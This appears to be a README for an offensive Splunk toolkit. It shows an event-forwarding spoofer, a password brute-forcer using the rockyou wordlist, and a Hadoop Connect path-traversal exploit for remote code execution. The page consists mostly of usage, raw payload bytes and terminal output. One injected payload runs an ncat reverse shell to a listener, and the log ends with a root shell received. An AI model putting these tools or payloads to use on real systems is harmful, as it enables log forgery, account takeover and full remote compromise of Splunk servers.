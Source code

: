[spooforward.py]

[i] Splunk forward spoofer v0.1

USAGE: ./spooforward.py [options]:

	-r, --host <file>	Server address (indexer instance)
	-p, --port <address>	Server port (default: 9997)
	-s, --source <pid>	Spoofed source ex. udp:514
	-l, --shost <num>	Spoofed host address
	-t, --type <type>	Source type
	-i, --index <index>	Index to forward to ex. default, main
	-m, --message <message>	 Spoofed event content (limit: 255)
	-d, --debug	 Enable debugging
	-c, --check	 Scan host
	-h, --help	 This help message


Example:

▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./spooforward.py -c -d -r 127.0.0.1 -l spoofedaddr.net -i main -t spoofedtype -s spoofedsource  -m "some event message"

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] '\xfe\x03\x16source::spoofedsource\x16host::spoofedaddr.net\x0cspoofedtype\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04main\x12some event message'

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT


[splunk_brute.sh]

▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./splunk_brute.sh test_acc /usr/share/wordlists/rockyou.txt 127.0.0.1 8000

[!] Bruteforcing password for test_acc on 127.0.0.1...
.......................................................
SUCCESS! U: test_acc P: 1234567890

...Terminated


[hdfs_exploit.sh]

Splunk Hadoop Connect Remote Code Execution

This script exploits path traversal vulnerability in Splunk app "Hadoop Connect"
export_hdfs.py script can be abused by specially crafted event to drop its contents
into /opt/splunk/bin/scripts/ executable directory.

This exploit need to meet several requirements:
* Ability to craft logs on system (see spooforward.py)
* Have HadoopConnect app installed

Usage:
        case "${option}"
        in
                h) rhost=${OPTARG};; # Remote host
                p) rport=${OPTARG};; # Remote port
                l) lhost=${OPTARG};; # Local host
                s) lport=${OPTARG};; # Local port
		o) proto=${OPTARG};; # Protocol [http|https]
		m) marker=${OPTARG};;# Unique string to search for
		u) uname=${OPTARG};; # Splunk user
		w) passw=${OPTARG};; # Splunk password
		c) scanhost="-c";;   # Scan host for spoofing capabilities
		e) spoof="NO";;      # Dont try to spoof event (already there)



▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./hdfs_exploit.sh -c -h 127.0.0.1 -m w00tw00tw00t

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] "\xfe\x03\nsource::.\thost::..\x02.\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04mainY#!/usr/bin/python\nimport os;os.system('ncat -e /bin/bash 127.0.0.1 4444');# w00tw00tw00t "

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT

[PWN] Waiting for shell...
Listening on [0.0.0.0] (family 0, port 4444)
nc -lvp${lport}
Connection from localhost 44056 received!
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/splunk/etc/apps/search/bin
Linux postern 4.8.0-kali2-amd64 #1 SMP Debian 4.8.15-1kali1 (2016-12-23) x86_64 GNU/Linux



